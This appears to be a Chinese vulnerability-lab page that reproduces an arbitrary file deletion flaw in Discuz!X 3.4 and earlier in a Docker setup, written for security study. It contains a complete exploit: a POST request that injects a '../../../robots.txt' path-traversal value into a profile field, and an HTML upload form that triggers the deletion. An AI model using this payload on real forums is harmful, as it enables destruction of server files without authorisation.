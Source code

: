 # Discuz!X ≤3.4 任意文件删除漏洞

Discuz!X是一个广泛使用的论坛软件系统。在Discuz!X 3.4及以下版本中存在一个任意文件删除漏洞，攻击者可以通过用户资料修改功能删除服务器上的任意文件。

参考链接：

- <https://lorexxar.cn/2017/09/30/dz-delete/>

## 环境搭建

执行下列命令部署Discuz!X安装环境：

```
docker compose up -d
```

安装时，只需修改数据库地址为`db`，其他配置保持默认即可：

![](1.png)

## 漏洞复现

首先，访问`http://your-ip/robots.txt`确认目标文件（如robots.txt）存在：

![](2.png)

注册用户后，在个人设置页面找到自己的formhash值：

![](4.png)

发送如下HTTP请求，注意替换其中的cookie和formhash值：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [你的cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

[你的formhash]
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s--
```

提交成功后，用户资料修改页面上的出生地会显示如下状态：

![](5.png)

这表明我们的恶意数据已经成功写入数据库。

接下来，创建一个`upload.html`文件，代码如下（将`[your-ip]`替换为你的Discuz域名，`[form-hash]`替换为你的formhash值）：

```html
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

用浏览器打开该页面并上传一个普通图片文件。此时，恶意数据应该已被处理，漏洞利用完成。

再次访问`http://your-ip/robots.txt`，可以验证文件已被成功删除：

![](6.png)
